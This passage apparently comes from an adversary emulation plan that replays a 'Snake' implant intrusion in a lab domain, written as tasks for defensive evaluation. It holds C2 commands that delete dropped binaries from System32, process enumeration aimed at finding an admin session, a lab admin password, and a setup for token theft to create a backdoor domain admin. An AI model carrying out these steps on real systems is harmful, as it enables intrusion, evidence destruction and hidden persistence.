 * Spend a couple minutes reading through any unread emails to wait for the implant to start beaconing back to the C2 server.

:arrow_right: Return to the Kali C2 terminal window and verify that a new implant session is beaconing back to the C2 server.

* Wait 1 minute and then task the implant to delete artifacts from the file server.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 1, "command": "del /Q C:\\Windows\\System32\\fs_mgr.exe C:\\Windows\\System32\\loadperf.exe C:\\Windows\\System32\\cmu_svc.exe"}'
```

* :arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`.

* Click on the search bar and search for `powershell`. Right click `powershell` and then click "Run as Administrator".

* When prompted, type in the username and password for `ZilvinasAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin | Producer2! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\ZilvinasAdmin`:

```pwsh
whoami
```

:arrow_right: Return to the Kali C2 server

* From the lower terminal window, task Snake to enumerate running processes on the machine to discover processes under `ZilvinasAdmin`.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that we find processes running under `ZilvinasAdmin`

```bash
grep 'NK\\ZilvinasAdmin' logs.txt -i 
```

* This should return output similar to the following:
>
* > ```text
    > powershell.exe                8152 RDP-Tcp#2                  3     83,280 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
    > conhost.exe                    312 RDP-Tcp#2                  3     17,356 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
    > ```

* Wait 1 minute, then instruct Snake to create a new domain user `Leshy` using an access token from one of the `ZilvinasAdmin` processes. `Leshy` will be used as a backdoor domain admin account for persistence on the domain.
